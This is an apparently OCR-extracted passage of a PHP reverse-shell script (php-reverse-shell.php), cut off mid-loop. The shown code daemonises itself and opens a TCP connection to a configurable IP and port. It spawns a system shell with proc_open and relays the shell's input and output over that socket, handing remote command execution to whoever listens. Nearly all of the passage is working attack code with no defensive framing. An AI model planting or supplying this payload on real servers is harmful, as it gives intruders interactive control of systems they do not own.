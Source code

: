 ```php:php-reverse-shell.php
	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
```